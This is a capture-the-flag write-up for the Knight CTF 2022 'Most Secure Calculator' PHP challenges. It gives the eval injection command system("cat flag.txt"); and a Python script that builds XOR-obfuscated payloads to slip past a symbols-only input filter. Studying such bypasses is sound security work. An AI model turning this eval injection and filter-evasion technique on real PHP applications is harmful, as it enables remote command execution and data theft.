 ```yaml
---
title: Knight CTF 2022 – Most Secure Calculator
date: '2022-01-21'
draft: false
authors: ['blueset']
tags: ['Knight CTF 2022', 'PHP', 'eval']
summary: 'Do not ever eval() user input, even you thought you have sanitized.'
---
```


## Most Secure Calculator 1 (50 points)

> Challenge Link: http://198.211.115.81:9003/  
> Flag Format: `KCTF{something_here}`  
> Note: Burte Force/Fuzzing not required and not allowed.  
> Author: NomanProdhan

Webpage has a form with a text box and a submit button. The form sends a POST request to `/`.

A comment is found in the HTML source of the webpage.

```html
<!-- 
    Hi Selina, 
    I learned about eval today and tomorrow I will learn about regex. I have build a calculator for your child.
    I have hidden some interesting things in flag.txt and I know you can read that file.
-->
```

* The webpage uses `eval` to “do calculations”.
* Flag is stored in `flag.txt`.

Submit `system("cat flag.txt");` to get the flag.

## Most Secure Calculator 2 (250 points)

> Challenge Link: http://198.211.115.81:9004/  
> Flag Format: `KCTF{something_here}`  
> Note: Burte Force/Fuzzing not required and not allowed.  
> Author: NomanProdhan  


Webpage has a form with a text box and a submit button. The form sends a POST request to `/`.

A comment is found in the HTML source of the webpage.

```
<!-- 
    Hi Selina, 
    I learned about regex today. I have upgraded the previous calculator. Now its the most secure calculator ever.
    The calculator accepts only numbers and symbols. 
    I have hidden some interesting things in flag.txt and I know you can create an interesting equation to read that file.
-->
```

Again,

* The webpage uses `eval` to “do calculations”.
* Filters are put in place to only accept “numbers and symbols”.
* Flag is stored in `flag.txt`.

Through trial and error, the following characters are found to be accepted:

```
!"#%'()*+,-./:;?@[\]^_`{|}~0123456789
```

Specifically, `$`, `<` and `>` are not accepted.

**Vulnerabilities:**

1. PHP allows to use a string literal as a function name.
2. PHP allows bit-wise XOR operation of strings.

Making use of feature 1, we can rewrite `system("cat flag.txt");` as `("system")("cat flag.txt");`.

Making use of feature 2, we can construct the words `system`, `cat`, `flag`, and `txt` using bit-wise XOR of 2 strings from the allowed character set.

For example, to construct the word `'sekai'`, we can have `'(%+!)' ^ '[@@@@'`.

```
(%+!)   00101000 00100101 00101011 00100001 00101001
     xor
[@@@@   01011011 01000000 01000000 01000000 01000000
      =
sekai   01110011 01100101 01101011 01100001 01101001
```

A Python script was written to find the XOR pairs and build the payload.

```py
chars = "!#%()*+,-./:;?@[]^_`{|}~&0123456789"
ascii_chars = "".join(chr(i) for i in range(32, 127))
diff = (set(ascii_chars) - set(chars))
mapping = {}

for i in chars:
    for j in chars:
        k = chr(ord(i) ^ ord(j))
        if k in diff and k not in mapping:
            mapping[k] = (i, j)

def transform(s):
    a = [mapping[c][0] for c in s]
    b = [mapping[c][1] for c in s]
    return "("+repr("".join(a)) + "^" + repr("".join(b))+")"

_system = transform("system")
_cat = transform("cat")
_flag = transform("flag")
_txt = transform("txt")

print(f"{_system}({_cat}.' '.{_flag}.'.'.{_txt});")
```

Submit this payload to get the flag.
